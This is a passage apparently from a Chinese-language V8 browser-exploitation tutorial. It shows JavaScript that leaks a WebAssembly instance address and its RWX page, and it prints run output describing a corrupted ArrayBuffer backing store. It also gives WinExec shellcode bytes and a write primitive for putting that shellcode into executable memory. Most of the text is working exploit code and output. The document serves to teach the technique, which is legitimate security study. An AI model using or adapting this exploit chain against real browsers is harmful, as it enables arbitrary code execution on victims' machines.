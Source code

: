 ```JS
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

// Leak WasmInstance Address
let wasmInstanceAddr = memory.addrOf(wasmInstance);
print(`[+] WASM Instance Address: 0x${wasmInstanceAddr.toString(16)}`);
// Leak
let wasmRWXAddr = memory.read64(wasmInstanceAddr + 0xF0n);
print(`[+] WASM RWX Page Address: 0x${wasmRWXAddr.toString(16)}`);
```

执行结果如下
```
[+] Finding Overlapping Properties...
[+] Properties p6 and p18 overlap!
[+] Leaking ArrayBuffer Address...
[+] ArrayBuffer Address: 0x37779c8db50
[+] Corrupting ArrayBuffer Backing Store Address...
[+] Constructed Memory Read and Write Primitive!
[+] WASM Instance Address: 0x2998447e580
[+] WASM RWX Page Address: 0x47f9400000
```
成功地将地址泄漏到了 wasmInstance 以及 Jump_table_start 指针
现在我们有了一个指向 RWX 内存页面的有效跳转表地址，我们所要做的就是将 shellcode 写入该内存区域，然后触发我们的 WebAssembly 函数来执行代码！
此处使用[Null-Free WinExec PopCalc](https://www.exploit-db.com/shellcodes/49819)shellcode作为例子
```JS
let shellcode = new Uint8Array([0x48,0x31,0xff,0x48,0xf7,0xe7,0x65,0x48,0x8b,0x58,0x60,0x48,0x8b,0x5b,0x18,0x48,0x8b,0x5b,0x20,0x48,0x8b,0x1b,0x48,0x8b,0x1b,0x48,0x8b,0x5b,0x20,0x49,0x89,0xd8,0x8b,0x5b,0x3c,0x4c,0x01,0xc3,0x48,0x31,0xc9,0x66,0x81,0xc1,0xff,0x88,0x48,0xc1,0xe9,0x08,0x8b,0x14,0x0b,0x4c,0x01,0xc2,0x4d,0x31,0xd2,0x44,0x8b,0x52,0x1c,0x4d,0x01,0xc2,0x4d,0x31,0xdb,0x44,0x8b,0x5a,0x20,0x4d,0x01,0xc3,0x4d,0x31,0xe4,0x44,0x8b,0x62,0x24,0x4d,0x01,0xc4,0xeb,0x32,0x5b,0x59,0x48,0x31,0xc0,0x48,0x89,0xe2,0x51,0x48,0x8b,0x0c,0x24,0x48,0x31,0xff,0x41,0x8b,0x3c,0x83,0x4c,0x01,0xc7,0x48,0x89,0xd6,0xf3,0xa6,0x74,0x05,0x48,0xff,0xc0,0xeb,0xe6,0x59,0x66,0x41,0x8b,0x04,0x44,0x41,0x8b,0x04,0x82,0x4c,0x01,0xc0,0x53,0xc3,0x48,0x31,0xc9,0x80,0xc1,0x07,0x48,0xb8,0x0f,0xa8,0x96,0x91,0xba,0x87,0x9a,0x9c,0x48,0xf7,0xd0,0x48,0xc1,0xe8,0x08,0x50,0x51,0xe8,0xb0,0xff,0xff,0xff,0x49,0x89,0xc6,0x48,0x31,0xc9,0x48,0xf7,0xe1,0x50,0x48,0xb8,0x9c,0x9e,0x93,0x9c,0xd1,0x9a,0x87,0x9a,0x48,0xf7,0xd0,0x50,0x48,0x89,0xe1,0x48,0xff,0xc2,0x48,0x83,0xec,0x20,0x41,0xff,0xd6]);
```
准备好 shellcode 后，我们现在需要通过数组缓冲区添加新的内存写入原语，因为我们当前的 write64 函数仅使用BigUint64Array 表示形式。
对于这个写入原语，我们可以重用 write64 的代码，但有两个小改动。首先，我们需要将 view2 设置为 Uint8Array 而不是 BigUint64Array 。其次，要通过视图编写完整的 shellcode，我们将调用 set 函数。这允许我们在数组缓冲区中存储多个值，而不是像以前那样只使用索引。
新的写入内存原语将如下所示：
```JS
let memory = {
  write(addr, bytes) {
    view1[4] = addr;
    let view2 = new Uint8Array(arrBuf2);
    view2.set(bytes);
  }
};
```
